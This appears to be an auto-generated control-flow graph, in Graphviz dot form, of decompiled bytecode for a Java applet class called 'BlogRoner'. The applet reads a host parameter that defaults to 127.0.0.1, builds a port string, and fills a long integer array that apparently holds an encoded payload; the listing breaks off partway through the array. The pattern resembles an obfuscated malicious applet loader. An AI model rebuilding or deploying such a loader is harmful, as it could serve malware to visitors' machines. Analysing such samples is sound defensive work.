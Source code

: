 digraph "" {
    "r0 := @this: BlogRoner"
    "load.r r0"
    "r0 := @this: BlogRoner"->"load.r r0";
    "push \"url\""
    "load.r r0"->"push \"url\"";
    "virtualinvoke <BlogRoner: java.lang.String getParameter(java.lang.String)>"
    "push \"url\""->"virtualinvoke <BlogRoner: java.lang.String getParameter(java.lang.String)>";
    "staticput <BlogRoner: java.lang.String host>"
    "virtualinvoke <BlogRoner: java.lang.String getParameter(java.lang.String)>"->"staticput <BlogRoner: java.lang.String host>";
    "new java.lang.StringBuilder"
    "staticput <BlogRoner: java.lang.String host>"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"8\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"8\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticput <BlogRoner: java.lang.String s_port>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticput <BlogRoner: java.lang.String s_port>";
    "staticget <BlogRoner: java.lang.String host>"
    "staticput <BlogRoner: java.lang.String s_port>"->"staticget <BlogRoner: java.lang.String host>";
    "ifnonnull push null"
    "staticget <BlogRoner: java.lang.String host>"->"ifnonnull push null";
    "push \"127.0.0.1\""
    "ifnonnull push null"->"push \"127.0.0.1\"";
    "push \"127.0.0.1\""->"staticput <BlogRoner: java.lang.String host>";
    "push null"
    "staticput <BlogRoner: java.lang.String host>"->"push null";
    "store.r r0"
    "push null"->"store.r r0";
    "push 290"
    "store.r r0"->"push 290";
    "newarray"
    "push 290"->"newarray";
    "store.r $r11"
    "newarray"->"store.r $r11";
    "load.r $r11"
    "store.r $r11"->"load.r $r11";
    "push 0"
    "load.r $r11"->"push 0";
    "push 98"
    "push 0"->"push 98";
    "arraywrite.i"
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 1"
    "load.r $r11"->"push 1";
    "push 96"
    "push 1"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 2"
    "load.r $r11"->"push 2";
    "push 102"
    "push 2"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 3"
    "load.r $r11"->"push 3";
    "push 103"
    "push 3"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 4"
    "load.r $r11"->"push 4";
    "push 19"
    "push 4"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 5"
    "load.r $r11"->"push 5";
    "push 5"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 6"
    "load.r $r11"->"push 6";
    "push 6"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 7"
    "load.r $r11"->"push 7";
    "push 22"
    "push 7"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 8"
    "load.r $r11"->"push 8";
    "push 20"
    "push 8"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 9"
    "load.r $r11"->"push 9";
    "push 16"
    "push 9"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 10"
    "load.r $r11"->"push 10";
    "push 10"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 11"
    "load.r $r11"->"push 11";
    "push 17"
    "push 11"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 12"
    "load.r $r11"->"push 12";
    "push 12"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 13"
    "load.r $r11"->"push 13";
    "push 13"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 14"
    "load.r $r11"->"push 14";
    "push 18"
    "push 14"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 15"
    "load.r $r11"->"push 15";
    "push 26"
    "push 15"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 16";
    "push 21"
    "push 16"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 17";
    "push 17"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 18";
    "push 18"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 19";
    "push 19"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 20";
    "push 20"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 21";
    "push 21"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 22";
    "push 22"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 23"
    "load.r $r11"->"push 23";
    "push 23"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 24"
    "load.r $r11"->"push 24";
    "push 24"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 25"
    "load.r $r11"->"push 25";
    "push 25"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 26";
    "push 26"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 27"
    "load.r $r11"->"push 27";
    "push 27"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 28"
    "load.r $r11"->"push 28";
    "push 28"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 29"
    "load.r $r11"->"push 29";
    "push 29"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 30"
    "load.r $r11"->"push 30";
    "push 30"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 31"
    "load.r $r11"->"push 31";
    "push 31"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 32"
    "load.r $r11"->"push 32";
    "push 32"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 33"
    "load.r $r11"->"push 33";
    "push 33"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 34"
    "load.r $r11"->"push 34";
    "push 34"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 35"
    "load.r $r11"->"push 35";
    "push 35"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 36"
    "load.r $r11"->"push 36";
    "push 36"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 37"
    "load.r $r11"->"push 37";
    "push 37"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 38"
    "load.r $r11"->"push 38";
    "push 38"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 39"
    "load.r $r11"->"push 39";
    "push 39"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 40"
    "load.r $r11"->"push 40";
    "push 40"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 41"
    "load.r $r11"->"push 41";
    "push 41"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 42"
    "load.r $r11"->"push 42";
    "push 42"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 43"
    "load.r $r11"->"push 43";
    "push 43"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 44"
    "load.r $r11"->"push 44";
    "push 44"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 45"
    "load.r $r11"->"push 45";
    "push 45"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 46"
    "load.r $r11"->"push 46";
    "push 46"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 47"
    "load.r $r11"->"push 47";
    "push 47"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 48"
    "load.r $r11"->"push 48";
    "push 48"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 49"
    "load.r $r11"->"push 49";
    "push 49"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 50"
    "load.r $r11"->"push 50";
    "push 50"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 51"
    "load.r $r11"->"push 51";
    "push 51"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 52"
    "load.r $r11"->"push 52";
    "push 52"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 53"
    "load.r $r11"->"push 53";
    "push 53"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 54"
    "load.r $r11"->"push 54";
    "push 54"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 55"
    "load.r $r11"->"push 55";
    "push 101"
    "push 55"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 56"
    "load.r $r11"->"push 56";
    "push 56"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 57"
    "load.r $r11"->"push 57";
    "push 57"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 58"
    "load.r $r11"->"push 58";
    "push 58"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 59"
    "load.r $r11"->"push 59";
    "push 59"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 60"
    "load.r $r11"->"push 60";
    "push 60"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 61"
    "load.r $r11"->"push 61";
    "push 61"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 62"
    "load.r $r11"->"push 62";
    "push 62"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 63"
    "load.r $r11"->"push 63";
    "push 63"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 64"
    "load.r $r11"->"push 64";
    "push 64"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 65"
    "load.r $r11"->"push 65";
    "push 65"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 66"
    "load.r $r11"->"push 66";
    "push 66"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 67"
    "load.r $r11"->"push 67";
    "push 67"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 68"
    "load.r $r11"->"push 68";
    "push 97"
    "push 68"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 69"
    "load.r $r11"->"push 69";
    "push 69"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 70"
    "load.r $r11"->"push 70";
    "push 70"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 71"
    "load.r $r11"->"push 71";
    "push 71"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 72"
    "load.r $r11"->"push 72";
    "push 72"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 73"
    "load.r $r11"->"push 73";
    "push 73"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 74"
    "load.r $r11"->"push 74";
    "push 74"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 75"
    "load.r $r11"->"push 75";
    "push 75"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 76"
    "load.r $r11"->"push 76";
    "push 76"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 77"
    "load.r $r11"->"push 77";
    "push 77"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 78"
    "load.r $r11"->"push 78";
    "push 78"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 79"
    "load.r $r11"->"push 79";
    "push 79"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 80"
    "load.r $r11"->"push 80";
    "push 80"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 81"
    "load.r $r11"->"push 81";
    "push 81"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 82"
    "load.r $r11"->"push 82";
    "push 82"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 83"
    "load.r $r11"->"push 83";
    "push 83"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 84"
    "load.r $r11"->"push 84";
    "push 84"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 85"
    "load.r $r11"->"push 85";
    "push 85"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 86"
    "load.r $r11"->"push 86";
    "push 86"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 87"
    "load.r $r11"->"push 87";
    "push 87"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 88"
    "load.r $r11"->"push 88";
    "push 88"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 89"
    "load.r $r11"->"push 89";
    "push 89"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 90"
    "load.r $r11"->"push 90";
    "push 90"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 91"
    "load.r $r11"->"push 91";
    "push 91"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 92"
    "load.r $r11"->"push 92";
    "push 92"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 93"
    "load.r $r11"->"push 93";
    "push 93"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 94"
    "load.r $r11"->"push 94";
    "push 94"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 95"
    "load.r $r11"->"push 95";
    "push 95"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 96";
    "push 96"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 97";
    "push 97"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 98";
    "push 98"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 99"
    "load.r $r11"->"push 99";
    "push 99"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 100"
    "load.r $r11"->"push 100";
    "push 100"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 101";
    "push 101"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 102";
    "push 102"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "load.r $r11"->"push 103";
    "push 103"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 104"
    "load.r $r11"->"push 104";
    "push 104"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 105"
    "load.r $r11"->"push 105";
    "push 105"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 106"
    "load.r $r11"->"push 106";
    "push 106"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 107"
    "load.r $r11"->"push 107";
    "push 107"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 108"
    "load.r $r11"->"push 108";
    "push 108"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 109"
    "load.r $r11"->"push 109";
    "push 109"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 110"
    "load.r $r11"->"push 110";
    "push 110"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 111"
    "load.r $r11"->"push 111";
    "push 111"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 112"
    "load.r $r11"->"push 112";
    "push 112"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 113"
    "load.r $r11"->"push 113";
    "push 113"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 114"
    "load.r $r11"->"push 114";
    "push 114"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 115"
    "load.r $r11"->"push 115";
    "push 115"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 116"
    "load.r $r11"->"push 116";
    "push 116"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 117"
    "load.r $r11"->"push 117";
    "push 117"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 118"
    "load.r $r11"->"push 118";
    "push 118"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 119"
    "load.r $r11"->"push 119";
    "push 119"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 120"
    "load.r $r11"->"push 120";
    "push 120"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 121"
    "load.r $r11"->"push 121";
    "push 121"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 122"
    "load.r $r11"->"push 122";
    "push 122"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 123"
    "load.r $r11"->"push 123";
    "push 123"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 124"
    "load.r $r11"->"push 124";
    "push 124"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 125"
    "load.r $r11"->"push 125";
    "push 125"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 126"
    "load.r $r11"->"push 126";
    "push 126"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 127"
    "load.r $r11"->"push 127";
    "push 127"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 128"
    "load.r $r11"->"push 128";
    "push 128"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 129"
    "load.r $r11"->"push 129";
    "push 129"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 130"
    "load.r $r11"->"push 130";
    "push 130"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 131"
    "load.r $r11"->"push 131";
    "push 131"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 132"
    "load.r $r11"->"push 132";
    "push 132"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 133"
    "load.r $r11"->"push 133";
    "push 133"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 134"
    "load.r $r11"->"push 134";
    "push 134"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 135"
    "load.r $r11"->"push 135";
    "push 135"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 136"
    "load.r $r11"->"push 136";
    "push 136"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 137"
    "load.r $r11"->"push 137";
    "push 137"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 138"
    "load.r $r11"->"push 138";
    "push 138"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 139"
    "load.r $r11"->"push 139";
    "push 139"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 140"
    "load.r $r11"->"push 140";
    "push 140"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 141"
    "load.r $r11"->"push 141";
    "push 141"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 142"
    "load.r $r11"->"push 142";
    "push 142"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 143"
    "load.r $r11"->"push 143";
    "push 143"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 144"
    "load.r $r11"->"push 144";
    "push 144"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 145"
    "load.r $r11"->"push 145";
    "push 145"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 146"
    "load.r $r11"->"push 146";
    "push 146"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 147"
    "load.r $r11"->"push 147";
    "push 147"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 148"
    "load.r $r11"->"push 148";
    "push 148"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 149"
    "load.r $r11"->"push 149";
    "push 149"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 150"
    "load.r $r11"->"push 150";
    "push 150"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 151"
    "load.r $r11"->"push 151";
    "push 151"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 152"
    "load.r $r11"->"push 152";
    "push 152"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 153"
    "load.r $r11"->"push 153";
    "push 153"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 154"
    "load.r $r11"->"push 154";
    "push 154"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 155"
    "load.r $r11"->"push 155";
    "push 155"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 156"
    "load.r $r11"->"push 156";
    "push 156"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 157"
    "load.r $r11"->"push 157";
    "push 157"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 158"
    "load.r $r11"->"push 158";
    "push 158"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 159"
    "load.r $r11"->"push 159";
    "push 159"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 160"
    "load.r $r11"->"push 160";
    "push 160"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 161"
    "load.r $r11"->"push 161";
    "push 161"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 162"
    "load.r $r11"->"push 162";
    "push 162"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 163"
    "load.r $r11"->"push 163";
    "push 163"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 164"
    "load.r $r11"->"push 164";
    "push 164"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 165"
    "load.r $r11"->"push 165";
    "push 165"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 166"
    "load.r $r11"->"push 166";
    "push 166"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 167"
    "load.r $r11"->"push 167";
    "push 167"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 168"
    "load.r $r11"->"push 168";
    "push 168"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 169"
    "load.r $r11"->"push 169";
    "push 169"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 170"
    "load.r $r11"->"push 170";
    "push 170"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 171"
    "load.r $r11"->"push 171";
    "push 171"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 172"
    "load.r $r11"->"push 172";
    "push 172"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 173"
    "load.r $r11"->"push 173";
    "push 173"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 174"
    "load.r $r11"->"push 174";
    "push 174"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 175"
    "load.r $r11"->"push 175";
    "push 175"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 176"
    "load.r $r11"->"push 176";
    "push 176"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 177"
    "load.r $r11"->"push 177";
    "push 177"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 178"
    "load.r $r11"->"push 178";
    "push 178"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 179"
    "load.r $r11"->"push 179";
    "push 179"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 180"
    "load.r $r11"->"push 180";
    "push 180"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 181"
    "load.r $r11"->"push 181";
    "push 181"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 182"
